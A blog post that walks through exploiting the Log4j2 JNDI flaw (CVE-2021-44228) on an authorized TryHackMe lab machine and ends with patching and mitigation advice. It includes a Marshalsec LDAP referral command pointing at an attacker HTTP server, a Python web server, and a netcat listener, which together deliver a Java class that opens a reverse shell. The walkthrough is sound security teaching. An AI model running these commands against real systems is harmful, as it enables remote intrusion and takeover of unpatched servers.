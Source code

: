 ```yaml
---
layout: post
author: Istvan Kis
title: Log4j2 RCE and exploitation example (CVE-2021-44228)
image: log4j-1.jpg
keywords: log4j vulnerability, log4j exploit, CVE-2021-44228, hacker, reverse shell, remote code exection, tryhackme
---
```

{% include image.html src="/images/log4j-1.jpg" alt="Fox is looking really smart with glasses" %}

**What is CVE-2021-44228?**

In the first half of December, 2021, ransomware attackers received the perfect Santa gift: an easily exploitable Log4j2 vulnerability. Log4j is a widely used, Java-based logging utility published by Apache initially in 2001. Since then it received many updates, and a major release to version 2. As of today, the latest patched version is 2.16.0 (December 13).

Today we use this flaw and open shell to our target machine.

<!--more-->

## About the vulnerability

However you may think that a logging tool only processes standard text files with proper input sanitising, well, not every time. Log4j allows us to do some extra [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html){:rel="nofollow"}{:target="_blank"}{:aria-label="Read more about lookups"} there, using templates. An example from Log4j website:

{% include image.html src="/images/log4j-2.png" alt="Log4j lookup example" %}

The vulnerability is based on the allowance of reaching JNDI (it is a directory service via a Java API, more info [here](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface){:rel="nofollow"}{:target="_blank"}{:aria-label="Read more about JNDI"}) API through the mentioned lookup mechanism, and there is no restriction for using completely custom prefix in this parameter string. It means that if we use a `jndi:ldap://` with an attacker host's prepared LDAP server, dirty stuff can come (**remote code execution**). For the record we need to mention, that DNS or RMI protocols can work as well.

{% include image.html src="/images/log4j-3.jpg" alt="Log4j attacking architecture" %}

(Credit for the detailed explanation picture above: [Fastly](https://www.fastly.com){:rel="nofollow"}{:target="_blank"}{:aria-label="Read more about Fastly"}.)

## Why is it so dangerous?

For multiple reasons: for first, it is very easily exploitable, any script kiddie can take advantage of that. Secondly, there are many affected services because of transitive dependencies. Tons of enterprise softwares use this logging mechanism as external lib. Third part is related to the second one, patching Log4j itself is not enough, you need to check and understand, if your enterprise “black-box” software components use this library or not, and if so, plan and carry out proper risk mitigation.

## Exploitation example

We used [Tryhackme](https://tryhackme.com){:rel="nofollow"}{:target="_blank"}{:aria-label="Read more about Tryhackme"} box to test the exploit. These guys are committed to teach the people of the internet about awareness, security, penetration testing and many more, therefore I can frankly recommend you to give them a try.

### Starting situation

So we have a vulnerable target computer, which we are **allowed** to hack. There is a limited VPN between this computer (10.10.17.246) and our own attacker machine (10.9.125.225) with Kali linux ran in Virtualbox.

### Recon & discovery

Let’s check, if there are any services available with port scanning. Used an aggressive scanning (**-A**) because of the playing machine (no reason to remain silent), and a dedicated port range for seeing only the relevant port for us. (You should check all ports usually with flag **-p-**).

{% include image.html src="/images/log4j-4.png" alt="Port scanning on target host" %}

We see that Apache Solr is running on port 8983, let’s see it in the browser.

{% include image.html src="/images/log4j-5.png" alt="Solr web interface" %}

We see Log4j2 logging scheme, and it’s [vulnerable](https://solr.apache.org/security.html){:rel="nofollow"}{:target="_blank"}{:aria-label="Read more about vulnerable"}, as it turns out after a short google-fu. The box itself cheats a bit here, because we can see logs from this host, which would be not available in a real situation. (In those circumstances, instead of watching the logs, we could use directory busting or other attack vectors for finding a vulnerable endpoint.)

{% include image.html src="/images/log4j-6.png" alt="Log analysis of Solr" %}

We think that the template is parameterizable (`params={}`), and also see the `/admin/cores` endpoint. Here we are.

{% include image.html src="/images/log4j-7.png" alt="Solr vulnerable endpoint" %}

We learned from the vulnerability description that through lookups we can reach external ldap or dns servers. It works over TCP, let’s check what happens, if we try to catch that connection attempt with *netcat*.

{% include image.html src="/images/log4j-8.png" alt="LDAP request catch with netcat" %}

Connection is established, but because of LDAP request structure, the output is not readable by humans. However, this is a good sign.

### Exploitation

PoC was successful, now we need a process with a toolset, which can handle LDAP requests, and push an exploit to our Java-based application in an “understandable” format. Obviously, it will mean some kind of Java class(es) / POJO in this case.

The plan is to have an **LDAP relay** or referral server, and a simple **http server**, which can accept this connection and serve the **Java class**, which will open a **reverse shell** to our attacker computer.

For LDAP relay we use [Marshalsec](https://github.com/mbechler/marshalsec){:rel="nofollow"}{:target="_blank"}{:aria-label="Read more about Marshalsec"} with Maven. I won't go in details about the installation, it's pretty straightforward and well-documented on Github. 

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.125.225:8000/#Revshell”`

As a webserver, you can use anything handy, we prefer python3 http server. 

`python3 -m http.server`

So LDAP will use Revshell.class on python webserver, but there is nothing yet. This is the last preparation step.

{% include image.html src="/images/log4j-9.png" alt="Reverse shell in Java - source" %}

Let’s compile it with `javac Revshell.java` and copy the class into the python webserver directory. Do not forget that the vulnerability has Java related requirements (pref. Java 7-8 for the build). We used OpenJDK 1.8.0_181.

Run the listener, which will accept the reverse connection, and *fingers crossed*.

`nc -nltvp 1234`

Here is our setup as a whole:

{% include image.html src="/images/log4j-10.png" alt="Schematic draw of the attack" %}

A short video about getting everything ready.

<iframe width="100%" height="394" src="https://www.youtube.com/embed/xfLU5gJP0c8" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

This easy it is to break into systems and receive remote shell via the new Log4j2 vulnerability. It is not a coincidence, that the CVE score of it is 9.7 out of 10, while the CVSS score is 10 out of 10. Absolutely critical.

## What can we do to save our infrastructure?

Patch, patch, patch. Log4j has released fix for the base components, but as we earlier mentioned, we need to cover custom softwares and transitive dependencies as well. Watch the list of vulnerable softwares, contact your vendors, use [WAF](https://en.wikipedia.org/wiki/Web_application_firewall){:rel="nofollow"}{:target="_blank"}{:aria-label="Read more about WAF"} with proper string filtering, analyse activities, log files and traces. There are a couple online services (e.g. [Trendmicro](https://log4j-tester.trendmicro.com){:rel="nofollow"}{:target="_blank"}{:aria-label="Read more about Trendmicro Log4J tester"}), which provide remote checks of these threats. We do not recommend these, only if you can truly trust in them.

